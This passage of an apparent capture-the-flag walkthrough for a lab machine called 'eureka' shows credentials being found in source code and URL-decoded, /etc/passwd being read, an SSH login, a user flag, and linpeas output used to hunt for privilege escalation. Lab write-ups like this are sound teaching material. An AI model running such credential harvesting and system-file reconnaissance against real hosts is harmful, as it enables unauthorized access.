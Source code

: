 Credentials found:
- username: `miranda.wise%40furni.htb`
- password: `IL%21veT0Be%26BeT0L0ve`

The information looks to be URL encoded (`%40` is `@`), so the credentials are actually:
- username: `miranda.wise@furni.htb`
- password: `IL!veT0Be&BeT0L0ve`

Attempting to SSH with `miranda.wise` fails, checking `/etc/passwd` shows that the user is `miranda-wise`

```console
oscar190@eureka:~$ tail /etc/passwd
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:115:119:MySQL Server,,,:/nonexistent:/bin/false
oscar190:x:1000:1001:,,,:/home/oscar190:/bin/bash
miranda-wise:x:1001:1002:,,,:/home/miranda-wise:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

### 3.4. Login as miranda-wise and get user flag

```console
miranda-wise@eureka:~$ id
uid=1001(miranda-wise) gid=1002(miranda-wise) groups=1002(miranda-wise),1003(developers)
miranda-wise@eureka:~$ cat user.txt
832f59a225328067d1d472f981240017
```

## 4. Path to root

### 4.1. Finding interesting files

Running linpeas finds `/opt/log_analyse.sh` and `/var/www/web/cloud-gateway/log/application.log` mentioned a couple of times

```sh
                            ╔═════════════════════════╗
════════════════════════════╣ Other Interesting Files ╠════════════════════════════
                            ╚═════════════════════════╝
╔══════════╣ .sh files in path
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scriptbinaries-in-path
/usr/bin/gettext.sh
/usr/bin/rescan-scsi-bus.sh

╔══════════╣ Executable files potentially added by user (limit 70)
2025-04-10+09:16:27.5391427570 /usr/local/sbin/laurel
2025-04-01+13:05:26.5460572290 /var/www/web/Furni/src/main/resources/templates/services.html
2025-04-01+12:52:03.3500959450 /var/www/web/cloud-gateway/src/main/resources/application.yaml
2025-04-01+12:47:04.7260985450 /var/www/web/user-management-service/src/main/resources/application.properties
2025-04-01+12:46:42.1700987420 /var/www/web/Furni/src/main/resources/application.properties
2025-03-20+14:17:35.4472010800 /opt/log_analyse.sh
⋮

╔══════════╣ Unexpected in /opt (usually empty)
total 24
drwxr-xr-x  4 root root     4096 Mar 20 14:17 .
drwxr-xr-x 19 root root     4096 Apr 22 12:47 ..
drwxrwx---  2 root www-data 4096 Aug  7  2024 heapdump
```